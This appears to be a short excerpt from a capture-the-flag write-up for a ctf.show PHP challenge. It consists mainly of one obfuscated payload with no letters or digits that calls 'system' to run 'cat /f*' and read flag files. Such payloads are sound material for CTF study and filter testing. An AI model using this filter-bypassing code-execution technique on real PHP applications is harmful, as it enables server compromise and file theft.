 ```php
    }
}
```

```php
ctf_show=$_=(_/_._)[_];++$_;$__=$_.$_++;++$_;++$_;$$_[$_=_.$__.++$_.++$_]($$_[_]);&_POST=system&_=cat /f*
```

